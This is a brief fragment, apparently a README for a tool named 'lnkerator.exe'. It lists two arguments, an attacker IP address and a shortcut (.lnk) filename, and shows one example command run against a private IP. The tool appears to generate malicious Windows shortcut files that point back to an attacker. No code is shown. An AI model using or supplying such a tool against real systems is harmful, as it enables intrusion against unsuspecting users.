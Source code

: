 ﻿Argument 1: Attacker IP Address  
Argument 2: Lnk Filename  

> .\lnkerator.exe 192.168.254.118 test  
